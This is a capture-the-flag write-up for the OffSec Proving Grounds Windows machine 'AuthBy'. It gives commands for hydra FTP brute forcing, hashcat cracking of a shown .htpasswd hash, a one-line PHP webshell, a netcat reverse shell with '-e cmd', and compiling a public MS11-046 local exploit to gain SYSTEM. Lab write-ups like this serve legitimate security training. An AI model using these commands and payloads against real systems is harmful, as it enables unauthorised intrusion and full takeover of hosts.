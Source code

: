 # AuthBy

## Info

AuthBy is an intermediate difficulty windows machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
21/tcp   open  ftp                syn-ack ttl 125 zFTPServer 6.0 build 2011-10-17
242/tcp  open  http               syn-ack ttl 125 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
3145/tcp open  zftp-admin         syn-ack ttl 125 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 125
```

## FTP

Anonymous login enabled, files are owned by root so cannot be accessed.

Brute force default ftp usernames and passwords.

```
hydra -L ftp-usernames.txt -P ftp-passwords.txt <ip> ftp
```

The following credentials allow access.

```
admin:admin
```

The following files are found.

```
index.php
.htpasswd
.htaccess
```

## Password

The following hash is found in the .htpasswd file.

```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

Cracking with hashcat.

```
sudo hashcat --force -m 1600 offsec.hash /usr/share/wordlists/rockyou.txt
```

Credentials.

```
offsec:elite
```

## User

After scanning directories with the credentials and basic authorization, I do not find anything interesting.

As the ftp directory only included http related files, I uploaded a text file to check if it could be accessed in the web directory, which was true.

Creating a basic webshell.

```
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

This allows code execution.


## Root

After uploading nc to the server, we can execute with the webshell.

```
nc.exe <ip> <port> -e cmd
```

windows server is vulnerable to MS11-046.

```
windows_x86/local/40564.c
```

Compile on kali.

```
sudo apt install mingw-w64
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

After uploading to the server and executing, the user is nt authority system.
